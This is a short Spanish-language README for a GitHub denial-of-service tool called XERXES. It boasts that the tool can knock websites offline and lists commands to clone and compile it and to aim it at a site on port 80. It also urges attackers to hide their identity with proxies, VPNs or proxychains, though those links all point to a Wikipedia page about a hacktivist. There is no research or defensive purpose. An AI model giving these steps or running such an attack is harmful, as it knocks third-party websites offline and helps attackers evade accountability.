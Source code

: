 ### XERXES

Que es XERXES un ataque (DOS) potente capaz de tumbar paginas web iniciando con solo un cmd aca abajo.

### CREAR REPO
```
@root-# git clone https://github.com/luis498/XERXES.git
```

### ENTRAR
```
@root-# cd (Buscalo)
```

### INGRESAR
```
@root-# gcc xerxes.c -o xerxes
```

### ATACAR
```
@root-# ./xerxes www.fakesite.com 80
```

SER [ANÓNIMO](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29) USAR [PROXY](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29) VPN [OPENVPN](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29) O [PROXYCHAINS](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29)



Made By Truchorko#777 [Discord](https://discord.gg/eByRx2MDGu)

